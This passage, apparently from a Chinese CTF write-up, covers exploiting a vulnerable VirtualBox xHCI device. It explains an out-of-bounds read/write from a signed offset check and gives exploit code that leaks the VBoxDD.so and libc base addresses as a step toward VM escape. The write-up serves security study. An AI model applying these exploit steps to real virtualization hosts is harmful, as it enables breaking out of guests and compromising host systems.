 ### 可能遇到的问题

#### 写CRCRL偏移无法修改对应寄存器值

一开始我直接写`CRCRL`发现并不能修改`pThis->cmdr_dqp`等值，后来发现需要先往`USBCMD`写0，暂停服务之后才能修改其他寄存器的值。

#### 写USBCMD无法调用xhciR3ExecuteCommand

往`USBCMD`写1之后无法调用`xhciR3ExecuteCommand`，后来发现需要往`XHCI_DOORBELL_OFFSET(0x3000)`写0才能触发notify执行命令。



## leak

逆向可知，程序读入的`off`和`len`均为int类型，`len`的符号位作为控制读写的标志位，而`off`可以为负数，只要满足`(len & 0x7FFFFFFF) + off <= 0x3FF`的条件即可，故这里可以对`addr < pThis + 0xFB0 + 0x400`范围内的地址进行任意读写。

> 这里`pThis`结构体定义是从我自己编译的版本迁移过来的，所以看反汇编代码显示的成员偏移不准，以汇编为准。

```c
    case 0x33:
      PDMDevHlpPCIPhysReadMeta_2DB4BE(pDevIns, pCmd->adr.ctx_ptr, &cmd, 0x10uLL);
      if ( (len & 0x7FFFFFFF) + off <= 0x3FF )
      {
        if ( len < 0 )
          PDMDevHlpPCIPhysWriteMeta_2DB558(pDevIns, cmd.field_0, &pThis->abExtCap[off + 0x400], len & 0x7FFFFFFF);
        else
          PDMDevHlpPCIPhysReadMeta_2DB4BE(pDevIns, cmd.field_0, &pThis->abExtCap[off + 0x400], len & 0x7FFFFFFF);
      }
```

设`rw_base = pThis + 0xFB0`，通过调试可知，`pThis = rw_base - 0xfb0`，`pDevIns = rw_base - 0x13f0`，通过`pDevIns`结构体内部的指针可以泄露得到`pDevIns`的地址和VBoxDD.so的加载基址。VBoxDD.so的加载地址在可读写范围内，进而我们可以通过VBoxDD.so的got表泄露得到libc.so.6的加载基址。

```python
    /* leak */
    memset(buf, 0, 0x100);
    abread(buf, -0x13f0, 0x100);
    hex_dump64(buf, 0x100);
    uint64_t vboxdd_base = *(uint64_t *)(buf + 0x30) - 0x7cd280;
    uint64_t pThis = *(uint64_t *)(buf + 0x18);
    uint64_t pDevIns = pThis - 0x440;
    uint64_t rw_base = pThis + 0xfb0;
    printf("[+] vboxdd_base: %#lx\n", vboxdd_base);
    printf("[+] rw_base: %#lx\n", rw_base);

    uint64_t vboxdd_got = vboxdd_base + 0x7D9000;
    memset(buf, 0, 0x100);
    printf("[abread] off %#lx len %#lx\n", vboxdd_got-rw_base, 8);
    abread(buf, vboxdd_got-rw_base, 8);
    hex_dump64(buf, 0x8);
    uint64_t libc_base = *(uint64_t *)buf - 0x79b00;
    printf("[+] libc_base: %#lx\n", libc_base);
```
